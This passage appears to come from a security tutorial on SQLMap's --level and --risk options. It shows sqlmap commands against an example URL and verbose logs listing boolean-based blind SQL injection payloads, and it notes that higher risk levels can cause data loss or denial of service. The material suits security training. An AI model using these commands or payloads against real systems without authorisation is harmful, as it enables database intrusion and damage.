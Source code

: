 Nevertheless, there is a possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap.
For such demands, the options `--level` and `--risk` should be used:
- `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., **the lower the expectancy, the higher the level**).
- `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., **risk of database entry loss or denial-of-service**).

The best way to check for differences between used boundaries and payloads for different values of `--level` and `--risk`, is the usage of `-v` (**verbose**). In verbosity `3` or higher (`-v 3`), messages containing the used `[PAYLOAD]` will be displayed, as follows:
```bash
$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

While on the other hand, payloads used with the default `--level` value have a considerably smaller set of boundaries:
```bash
$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

As for vectors, we can compare used payloads as follows:
```bash
$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```
```bash
$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3

...SNIP...
[14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
...SNIP...
[14:46:05] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
```
